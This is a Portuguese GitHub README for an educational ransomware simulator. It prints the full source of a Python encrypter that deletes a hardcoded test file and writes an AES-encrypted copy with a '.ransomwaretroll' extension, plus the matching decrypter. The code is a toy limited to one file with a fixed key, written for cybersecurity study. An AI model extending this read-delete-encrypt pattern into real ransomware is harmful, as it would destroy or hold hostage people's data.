 ## 🔒 Simulador de Ransomware em Python:
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

## 📌 Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

## 📌 Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

## 🚀 Tecnologias Utilizadas
Python 3,
Kali Linux,
**Biblioteca **pyaes

## 📥 Instalação e Execução
🔹 1. Clonar o repositório:
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências:
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste:
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter:
python encrypter.py
isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter:
python decrypter.py
isso removerá o arquivo criptografado e restaurará teste.txt.

## 📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
